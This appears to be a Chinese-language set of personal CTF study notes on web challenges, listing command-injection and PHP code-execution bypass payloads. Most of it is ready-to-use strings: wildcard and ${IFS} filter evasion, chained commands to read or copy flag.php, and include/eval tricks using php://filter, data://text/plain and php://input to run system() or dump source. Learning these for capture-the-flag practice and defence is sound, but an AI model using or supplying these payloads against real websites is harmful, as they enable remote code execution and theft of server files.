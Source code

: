 ## 笔记

<br><br>

* 在逆向(星号)((BYTE*)的时候用宏定义#define BYTE unsigned char即可正常使用

<br>

* system("tac flag.php")用来读取文件内容;

<br>

* ?c=system("tac%20fla(星号)")意思是c=system("tac flag");


````
3.5 通配符绕过

[…]表示匹配方括号之中的任意一个字符
{…}表示匹配大括号里面的所有模式，模式之间使用逗号分隔。
{…}与[…]有一个重要的区别，当匹配的文件不存在，[…]会失去模式的功能，变成一个单纯的字符串，而{…}依然可以展开

````

<br>

* --命令绕过

<br>

黑洞绕过：system($c." >/dev/null 2>&1");

* 双写分号绕过?c=tac f*;ls
* 双写&&绕过?c=tac f*%26%26ls（注：星号被绕过可以用问号）（[0-9]和%的过滤是不会过滤%26之类的）（）

* 带行号绕过?c=nl<fla''g.php%7C%7Cls(此方法可能要右键看源代码)

* 有$的情况下可以重命名flag.php成txt再直接访问:先执行?c=mv${IFS}fla?.php${IFS}a.txt%7C%7Cls 然后使用ls||ls看看有没有命名成功。成功后直接访问a.txt

* 其他注：?c=ls${IFS}/||ls查看根目录（ls /）

* ?c=cp${IFS}/fla?${IFS}/var/www/html/b.txt（将根目录（ls /）下的flag复制到可以直接在url的目录）
* 它只会让分号后面的指令进入黑洞，所以这里直接绕过






<br>

直接eval()传参时：
* 特殊字符:"$""&"如果只是对c进行过滤，就可以通过包含另一个函数来绕过
* 做题前先看看对谁过滤，再看如何过滤
* c=include$_GET[1]?>&1=php://filter/read=convert.base64-encode/resource=flag.php
* c=include$_GET[1]?>&1=data://text/plain,<?php system("nl flag.php")?>
* c=$nice=include$_GET["url"]?>&url=php://filter/read=convert.base64-encode/resource=flag.php
* 仅括号
* c=echo highlight_file(next(array_reverse(scandir(pos(localeconv())))));
* c=eval(next(reset(get_defined_vars())));&1=;system("tac%20flag.php");
* c=show_source(next(array_reverse(scandir(pos(localeconv())))));
* c=highlight_file(next(array_reverse(scandir(dir))));
<br>

当include(c)时：直接使用协议绕过
* c=data://text/plain,<?php system('tac f*');?>

<br>

* php被过滤的时候:
* ?c=data://text/plain,<?=system("tac fla*")?>
* 注：include()只会处理<?php>里面的内容

<br>

* $被过滤的时候:
* ?c=echo highlight_file(next(array_reverse(scandir(pos(localeconv())))));
* ?c=eval(next(reset(get_defined_vars())));&1=;system("tac%20flag.php");

<br>


````
一般使用方法：

php://filter/ [read|write =]过滤器|过滤器/resource=要过滤的数据流 conversion filter(转换过滤器) convert.base64-encode & convert.base64-decode(base64加密解密) 例如：php://filter/convert.base64-encode/resource=flag.php

过滤器可以设置多个

php://filter读取源代码并进行base64编码输出，例如一些敏感信息会保存在php文件中，如果我们直接利用文件包含去打开一个PHP文件，PHP代码是不会显示到页面上的，例如：

他只显示了一条语句，这时我们可以以base64编码的方式读取指定文件的源码：

php://input协议

input协议可以访问请求的原始数据的制度刘，将post请求中的数据作为PHP代码执行。当传入的参数作为文件名打开时，可以将参数设为php://input，同时post想设置的文件内容，php执行时会将post内容作为文件内容，从而导致任意代码的执行。

利用该方法，我们可以直接写入php文件，输入file=php://input，然后用burp抓包，写入PHP代码：

data://text/plain协议

同样类似php://input，可以让用户来控制输入流，当它与包含函数结合时，用户输入的data://流会被当做php文件执行，从而导致任意代码执行。

利用data://伪协议可以直接达到执行php代码的效果，例如执行phpinfo();

格式：data://text/plain,流

例如：

data://text/plain,<?php phpinfo();?>
//如果此处对特殊字符进行了过滤，我们还可以通过base64编码后再输入：
data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=

````




